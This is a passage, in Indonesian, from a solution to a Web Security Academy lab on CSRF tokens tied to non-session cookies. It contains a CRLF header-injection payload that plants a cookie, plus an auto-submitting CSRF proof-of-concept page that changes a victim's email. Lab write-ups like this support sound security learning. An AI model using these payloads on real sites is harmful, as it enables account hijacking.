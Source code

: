 Mengikuti solusi resmi, diperlukan untuk menggunakan payload ini:

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

- `0x0A` adalah karakter newline `\n`
- `0x0D` adalah karakter return `\r`
- `Set-Cookie` akan mengubah nilai untuk header HTTP Cookie

Elemen `img` akan memuat URL berbahaya dan mengirimkan formulir yang dihasilkan oleh Burp:

```html
<html>
  <!-- CSRF PoC - dibuat oleh Burp Suite Professional -->
  <body>
	  <form action="https://0a3a0029035a2e108071588100890067.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test12&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="l0RRXoovjgxMasM34eeADEMkc24whrt3" />
      <input type="submit" value="Submit request" />
      </form>
      
      <img src='https://0a3a0029035a2e108071588100890067.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=tCFA5gCGZOqAwxhYizupPrZqP7jvVE8L%3b%20SameSite=None' onerror="document.forms[0].submit()" />

  </body>
</html>
```

![Gambar](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/5.png)

# Penjelasan Langkah demi Langkah
